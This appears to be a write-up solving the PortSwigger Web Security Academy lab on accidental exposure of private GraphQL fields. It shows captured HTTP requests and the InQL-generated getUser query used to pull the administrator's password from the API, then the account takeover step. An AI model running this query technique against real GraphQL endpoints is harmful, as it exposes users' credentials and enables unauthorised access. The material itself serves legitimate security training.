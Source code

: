 # [Accidental exposure of private GraphQL fields](https://portswigger.net/web-security/graphql/lab-graphql-accidental-field-exposure)

```
The user management functions for this lab are powered by a GraphQL endpoint.

The lab contains an access control vulnerability whereby you can induce the API
to reveal user credential fields.

To solve the lab, sign in as the administrator and delete the username carlos


```

### - There is an access control vulnerability.
### - Induce the API to reveal user credential fields



1. Login as peter
2. Send the login Post request to Repeater
`POST /graphql/v1 HTTP/2`

#### The request:
```HTTP
POST /graphql/v1 HTTP/2
Host: 0ad600ae033e31fd80d82b1400e00015.web-security-academy.net
Cookie: session=ZH9c2h82oKmfd0FIs41gc7f1H5Eofiei; session=IBQkjhPYR7JeDQEP7mOneAGXTZ7TICnX
Content-Length: 232
Accept: application/json
Content-Type: application/json
Origin: https://0ad600ae033e31fd80d82b1400e00015.web-security-academy.net
Referer: https://0ad600ae033e31fd80d82b1400e00015.web-security-academy.net/login

{"query":"\n    mutation login($input: LoginInput!) {\n        login(input:
$input) {\n            token\n            success\n        }\n
}","operationName":"login","variables":{"input":{"username":"wiener","password":"peter"}}}
```

Right-click -> extensions -> InQL GraphQL Scanner -> Generate Queries with InQL scanner
Click on the InQL tab, and open the folder for the scan you just did
Then select: queries -> getUser.graphql

#### This reveals in the window on the rignt the query:
```'GraphQL
query {
    getUser(id: Int!) {
        id
        password
        username
    }
}
```
- **Because the goal is to Induce the API to reveal user credential fields**
- **Then that means that the query above means you gotta substitute the Int! for an actual number**

- But first, right-click on that getUser.graphql query and send to Repeater
- Then, change Int! to 1
- Guessing 1 is the administarators id number

#### Send the request:
```HTTP
POST /graphql/v1 HTTP/2
Host: 0ad600ae033e31fd80d82b1400e00015.web-security-academy.net
Content-Type: application/json
Content-Length: 106

{"query": "query {\n    getUser(id: 1) {\n        id\n        password\n
username\n    }\n}"}
```

#### Response:
```HTTP
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
Set-Cookie: session=e9a9R3myvBcVw0i3kedeyUfpuxFYugB4; Secure; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 133

{
  "data": {
    "getUser": {
      "id": 1,
      "password": "avl5ht2slic29khwbtkz",
      "username": "administrator"
    }
  }
}
```

### Now log in as the administrator, go to admin panel and delete carlos


